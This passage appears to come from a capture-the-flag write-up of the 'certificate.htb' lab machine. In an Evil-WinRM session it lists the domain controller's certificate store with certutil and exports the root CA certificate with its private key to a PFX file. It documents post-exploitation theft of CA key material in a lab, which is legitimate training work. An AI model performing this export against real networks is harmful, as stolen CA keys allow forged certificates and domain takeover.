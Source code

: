 ```powershell
 NotBefore: 11/3/2024 8:14 PM                                      
 NotAfter: 11/3/2025 8:14 PM                                                                                                           
Subject: CN=DC01.certificate.htb 
Certificate Template Name (Certificate Type): DomainController 
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft RSA SChannel Cryptographic Provider
Missing stored keyset

================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
CertUtil: -store command completed successfully.
```

Using this let's now export the `pfx` file.
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportpfx my "75b2f4bbf31f108945147b466131bdca" ca_exported.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file ca_exported.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```
